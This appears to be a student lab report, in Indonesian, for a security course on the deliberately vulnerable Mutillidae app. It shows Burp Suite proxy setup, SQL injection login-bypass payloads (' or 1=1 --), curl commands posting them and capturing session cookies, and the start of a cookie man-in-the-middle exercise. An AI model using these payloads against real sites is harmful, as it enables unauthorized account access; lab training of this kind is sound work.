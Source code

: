 # Lesson 5 : SQL Injection, Burpsuite, cURL, Man-In-The-Middle Attack

## Start Web Browser Session to Multillidae
- Buka browser kemudian akses Multillidae ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")


## Go To Login Page
- Buka halaman Login/Register
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Configure Firefox Proxy Settings
1. View Preferences
   - Klik toggle menu yang ada di pojok kanan atas
   - Pilih Preferences
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/toggle_menu.png "Home page")
2. Advanced Settings
   - Pilih menu Advanced
   - Pilih Network Tabs
   - Klik Setting
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan manual proxy
   - Pada kolom HTTP Proxy isikan 127.0.0.1
   - Pada kolom Port 8080
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, Kemudian Close
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn on intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off "intercept is off"
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection: By-Pass Password Without Username (Obtain Access #1)
1. Login Tanpa Menggunakan Password
   - Pada kolom Textbox **Name** isikan **`' or 1=1 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol Login
2. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=login.php** dengan Method POST
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Perhatikan isi string pada username, string tersbut  akan digunakan untuk melancarkan serangan
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/3/result.png "Home page")

## Simulate CURL SQL Injection: (Obtain Access #1)
1. Use Curl to Login with POST Data
   - Buka terminal, ketikkan perintah-perintah berikut : 
```bash
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1+--+&password=&login-php-submit-button=Login" --location "http://10.0.1.100/mutillidae/index.php?page=login.php" > login1.txt
```
```bash
grep "Logged In" login1.txt
```
```bash
cat crack_cookies.txt
```
   - Session cookies akan disimpan pada file crack_cookies.txt
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/3/result_obtain_1.png "Home page")

## SQL Injection: Single Quote Test On Password Field (Obtain Access #2)
1. Inspect Password Box Element
   - Buka halaman Login/Register
   - Pada kolom Textbox Name isikan samurai
   - Pada kolom Textbox Password klik kanan, kemudian inspect element
2. Edit Password Box Element
   - Replace string password menjadi text
   - Pada bagian size dan maxlength tambahkan kapasistasnya dari yg semula 20 menjadi 50
3. Berikan Kondisi Selalu True pada kolom Textbox Password
   - Pada kolom Textbox Password isikan **`' or (1=1 and username='samurai')--`**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol Login
4. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy Tab
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=login.php** dengan Method POST
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Highligt text, kemudian klik kanan
   - Klik "Copy to FIle" 
5. Save File
   - Save file di : root
   - File Name: burp2.txt
   - Klik tombol Save
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/4/save_raw_data.png "Home page")
6. View Post Data (With Burpsuite)
   - cd /root
   - Jalankan perintah berikut:
```bash
   grep -i cookie burp2.txt
```
```bash
   grep -i username burp2.txt
```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/4/run_command.png "Home page")

Simulate cURL SQL Injection: (Obtain Access #2)
1. Use Curl to Login with POST Data
   - Buka terminal, ketikkan perintah-perintah berikut : 
```bash 
	rm crack_cookies.txt
```
```bash
	curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=samurai&password=%27+or+%281%3D1+and+username%3D%27samurai%27%29+--+&login-php-submit-button=Login" --location "http://10.0.1.100/mutillidae/index.php?page=login.php" > login2.txt
``` 
```bash
	grep "Logged In" login2.txt
```
```bash
	cat crack_cookies.txt
```
   - Session cookies akan disimpan pada file crack_cookies.txt

## Restore Firefox Original Proxy Configurations
1. View Preferences
   - Klik toggle menu yang ada di pojok kanan atas
   - Pilih Preferences
2. Advanced Settings
   - Pilih menu Advanced
   - Pilih Network Tabs
   - Klik Setting
3. Connection Settings
   - Pilih no proxy
   - Klik Ok, Kemudian Close

## Simulate Man-In-The-Middle Attack
1. Start Cookies Manager+
2. Add Cookie Entry